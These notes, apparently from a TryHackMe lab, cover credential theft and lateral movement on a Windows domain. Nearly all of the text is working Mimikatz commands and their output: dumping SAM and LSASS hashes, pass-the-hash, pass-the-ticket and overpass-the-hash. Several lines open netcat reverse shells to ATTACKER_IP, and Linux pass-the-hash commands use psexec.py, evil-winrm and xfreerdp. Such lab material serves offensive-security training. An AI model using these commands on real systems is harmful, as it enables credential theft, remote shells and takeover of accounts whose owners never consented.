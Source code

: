 # Use of Alternate Authentication Material

## Pass the hash

* Dumping sam&#x20;

```batch
THMJMP2: Powershell
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # lsadump::sam   
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 145e02c50333951f71d13c245d352b50
```

* Dumping lsass

```batch
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # sekurlsa::msv 
Authentication Id : 0 ; 308124 (00000000:0004b39c)
Session           : RemoteInteractive from 2 
User Name         : bob.jenkins
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 2022/04/22 09:55:02
SID               : S-1-5-21-3330634377-1326264276-632209373-4605
        msv :
         [00000003] Primary
         * Username : bob.jenkins
         * Domain   : ZA
         * NTLM     : 6b4a57f67805a663c818106dc0648484
```

* PTH attack

```batch
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```

Possible to combine PTH with runas /netonly and connect to a netcat listener (nc.exe required )

* PTH using linux

```
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH

```

## Pass the ticket

```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export

# Inject ticket
mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi

```

### Overpass-the-hash / Pass-the-Key

```batch
Extract key
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys

# revshell rc4 hash 
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
# Revshell AES128 hash
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
# revshell AES256 hash
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"

```
